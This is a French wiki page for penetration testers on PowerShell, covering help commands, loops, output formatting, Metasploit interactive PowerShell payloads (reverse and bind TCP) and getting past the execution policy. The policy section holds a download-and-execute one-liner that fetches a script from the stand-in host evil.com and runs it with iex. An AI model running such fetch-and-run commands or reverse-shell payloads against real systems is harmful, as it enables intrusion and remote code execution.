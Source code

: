 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme "Not Powershell" (https://github.com/Ben0xA/nps)

Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Session interactive
-------------------

**Note**: cette section est basée sur [Interactive sessions in PowerShell](https://www.trustedsec.com/june-2015/interactive-powershell-sessions-within-meterpreter/)

Pour obtenir une session interactive avec Powershell sous metasploit il est possible d'utiliser un des payloads dédiés dans metasploit. Il est à noter qu'il n'est pas possible de passer par meterpreter qui ne permet pas de lancer powershell après avoir fait un `shell`. Dans la version 4.11.5-2016010401 de metasploit les modules suivants sont disponibles:

``` bash
msf exploit(psexec) > search Interactive_powershell

Matching Modules
================

   Name                                        Disclosure Date  Rank    Description
   ----                                        ---------------  ----    -----------
   payload/cmd/windows/powershell_bind_tcp                      normal  Windows Interactive Powershell Session, Bind TCP
   payload/cmd/windows/powershell_reverse_tcp                   normal  Windows Interactive Powershell Session, Reverse TCP
   payload/windows/powershell_bind_tcp                          normal  Windows Interactive Powershell Session, Bind TCP
   payload/windows/powershell_reverse_tcp                       normal  Windows Interactive Powershell Session, Reverse TCP
   payload/windows/x64/powershell_bind_tcp                      normal  Windows Interactive Powershell Session, Bind TCP
   payload/windows/x64/powershell_reverse_tcp                   normal  Windows Interactive Powershell Session, Reverse TCP
```

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Commandes utiles
----------------

Les commandes suivantes sont utiles à connaître lors de l'utilisation de Powershell:

Resources
---------

-   [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-   [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-   [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)

